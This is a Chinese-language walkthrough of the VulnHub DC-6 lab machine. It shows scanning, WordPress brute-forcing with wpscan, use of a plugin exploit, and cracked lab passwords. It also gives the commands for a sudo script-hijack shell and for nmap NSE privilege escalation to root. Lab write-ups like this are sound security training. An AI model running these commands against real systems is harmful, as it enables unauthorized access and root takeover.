# DC6

- [参考](https://blog.csdn.net/weixin_43583637/article/details/102785246)

- [学习](https://www.vulnhub.com/entry/dc-6,315/)

- [下载](https://download.vulnhub.com/dc/DC-6.zip)

## 扫描

```
 nmap -sP 192.168.31.0/24
```



```
nmap -sT -sV -T5 -A -p- 192.168.31.59 //继续使用nmap获取详细信息

```


浏览器地址栏输入靶机IP,访问。



这次真不是burp问题了。发现显示域名，但无法解析域名导致无法访问网站。(Burp这锅我不背，爬)

修改主机 `hosts` 文件，添加主机 `192.168.31.59 wordy`
```
vim /etc/hosts
192.168.31.59 wordy
```



刷新一下，发现网站可以显示了。




## 初探

发现整体和 DC-2 差不多，那就直接用 wpscan 扫一遍吧 

```
wpscan --url http://wordy -e u
```


跑出5个用户，
```
admin
graham
mark
sarah
jens
```
那就继续按照 DC2 的方法继续爆破吧。 使用 [K8gege](https://github.com/k8gege/PasswordDic)top100跑试试看

```
wpscan --url http://wordy -U 1.txt -P 2.txt

```


？？？？？？去百度看看

原来要使用特定的字典 我佛了



> 红框为字典路径

## 中期

将/usr/share/wordlists下的rockyou.txt.gz解压缩

```
gunzip rockyou.txt.gz rockyou.txt
```
生成密码字典 pass.dic
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > pass.dic

cat pass.dic
```


密码已经生成，那就开搞吧！奥里给！

```
wpscan --url http://wordy -U 1.txt -P pass.dic 
```


找到mark用户的登录密码
```
账号：mark
密码: helpdesk01
```

登陆到后台，随便点点。到这里一筹莫展，只能Google一下下一步咋办。

提示通过这个插件，查找该插件存在的漏洞，并利用！


```
searchsploit activity monitor
```
小老弟还不少嘛。




保存到 kali apache2目录上，并且进行修改。



访问kali主机网页。



直接拿到权限

老规矩
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## 提权

接下来就是提权了。

下意识的打了个 `sudo -l `命令看看有没有可以不用root执行的命令.

根据前期个靶机的经验这里我直接使用了cd /home 命令




在cd了home目录下的前几个文件夹中在mark有收获

我们顺位到了mark 发现其中 `things-to-do.txt` 有意外发现



得到 graham 尝试 ssh 连接他




确认用户账号为：graham

密码为：GSo7isUM1D4

一番摸索在 mark的home 目录下 jens 文件夹中发现了一个脚本文件



可惜没权限运行，只能搁置。
在其他文章中说 不能以graham身份运行该文件，所以要以新用户身份运行。

```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```
成功运行脚本，切换成功。
在 jens 下看看有啥可以执行的。

```
$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap

```



!!! nmap 什么 马萨卡 我不知多久前记的 nmap 提权，今天终于要用到了吗？？ 👴的青春回来了！

接下来利用nmap脚本来提权

```
echo 'os.execute("/bin/sh")' > /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

```
cd /root
cat *
```



(PS)做了两遍 第一次输错了怎么打都只有 # ，以为没跑出来关了重新搞了一遍 第二次才发现我打错了。希望大家做到这里的时候细心一点。奥里给

## 总结

该靶场大致要点为： 
1. wordpress爆破
2. wordpress插件漏洞
3. nmap提权

更新笔记：
1. 提权骚操作
2. 中间件
